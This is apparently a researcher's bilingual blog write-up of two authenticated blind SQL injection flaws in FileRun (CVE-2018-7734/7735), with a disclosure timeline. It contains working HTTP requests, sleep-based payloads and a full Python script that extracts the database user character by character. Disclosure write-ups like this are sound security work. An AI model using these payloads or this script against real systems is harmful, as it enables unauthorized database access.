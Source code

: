 ```yaml
---
layout: post
title: Blind SQL Injection Vulnerability in FileRun<=2017.09.25
category: writeup
tags: bug CVE
description:
---
```

0x00 前言
----
0x00 Preface
----
在内部分享中需要用到私有的云盘服务,一番寻找之后发现FileRun是个不错的应用程序.FileRun允许我们自己搭建云存储，方便我们的照片，视频等文件更好的分享和存储.
Sometimes team private file sharing need use file sharing web application.I noticed FileRun is a great application,This application allows us to access our files anywhere through self-hosted secure cloud storage.



----------



0x01 漏洞发现
----
0x01 How To Find The Vulnerability
----

需要我们以```superuser```登录后台
These vulnerabilitys was found after the authentication. After we logged in as ```superuser```.

SQL1
----
控制面板——>Admin——>用户——>快速搜索,这样将会发送一个POST请求。
go to control panel——>Admin——>user——>search,will generate a POST request to  the server.

```

POST /?module=users&section=cpanel&page=list HTTP/1.1
Host: target.com
Content-Length: 20
Origin: http://target.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
Accept-Language: zh-CN,zh;q=0.9
Cookie: __cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf
Connection: close

limit=50&search=aaaa

```
我注意到search参数容易受到SQL注入的影响,通过传入aaaa' 服务器返回了一个500的响应状态:
I notice that the search parameter might be vulnerable to SQL Injection,I injected a single quote after the value (example:aaaa'),examined the server response error:

![userlist.png][1]

然后构造了基于sleep函数延时的payload:
Use MySQL's delay function sleep () to testing.
```
'xor(sleep(5))or'
```
结果如下

![sleeptime.png][2]

然后使用Blind SQL注入技术来获取select user()数据验证脚本如下：
Here I create a simple script to extract current ```select user()```query result using Boolean-based technique.

```

#!/usr/bin/env python
# -*- coding:utf-8 -*-
#__author__ = 'scanf'
import httplib
import time

#add cookies

headers = {'Content-Type': 'application/x-www-form-urlencoded',
           'User-Agent': 'Googlebot/2.1 (+http://www.googlebot.com/bot.html)',
           'Cookie': '__cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf',
           #'Cookie' : 'input you cookie',
           }
payloads = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.*'
print '[%s] Start to retrive MySQL User:' % time.strftime('%H:%M:%S', time.localtime())
user = ''
for i in range(1, 15):
        for payload in payloads:
            s = "aaaa'xor(if(ascii(mid(user()from(%s)for(1)))=%s,1,0))or'" % (i, ord(payload))
            s = '''limit=50&search=''' + s
            #url = http://target.com/?module=users&section=cpanel&page=list
            conn = httplib.HTTPConnection('target.com', timeout=30)
            conn.request(method='POST', url='/?module=users&section=cpanel&page=list', body=s,headers=headers)
            start_time = time.time()
            html_doc = conn.getresponse().read()
            conn.close()
            print '.',
            if html_doc.find('uid') > 0:
                user += payload
                print '\n[in progress]', user,
                break
print '\n[Done] MySQL user is %s' % user

```
```
[20:39:20] Start to retrive MySQL User:
. . . . . . 
[in progress] f . . . . . . . . . 
[in progress] fi . . . . . . . . . . . . 
[in progress] fil . . . . . 
[in progress] file . . . . . . . . . . . . . . . . . . 
[in progress] filer . . . . . . . . . . . . . . . . . . . . . 
[in progress] fileru . . . . . . . . . . . . . . 
[in progress] filerun . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@ . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@1 . . .
```
### SQL2

控制面板——>元数据——>快速搜索,输入字符串后将发起一个POST请求:
control panel——>Metadata——>search Same as SQL1,will generate a POST request to the server:
```

POST /?module=metadata&section=cpanel&page=list_filetypes HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 36
Cookie: __cfduid=df5ddd49a2303cb2e13b6aa8ece2af7b11513411363; FileRunSID=fa163cd088b68ae20c689826e3a70479; language=chinese
Connection: close

limit=50&search=aaa'xor(sleep(2))or'

```
然后超时后响应:
sleep() function is executed:
![time.png][3]

时间线
----
timeline
----
2017.12.18 发现漏洞并联系官方 Discover the vulnerability and contact the official
2017.12.22 等待官方处理 Waiting for official processing
2018.2.13 官方修复2.13并致谢并允许公开 Officially fixed 2.13 and thanks and open for publication
2018.3.6 请求cve漏洞编号 Request cve
2018.3.7 获得CVE-2018-7734 CVE-2018-7735 

cve information：
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7734
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7735





  [1]: https://img.scanfsec.com/img/2017122947195971.png
  [2]: https://img.scanfsec.com/img/2017124115978679.png
  [3]: https://img.scanfsec.com/img/2017123343952588.png
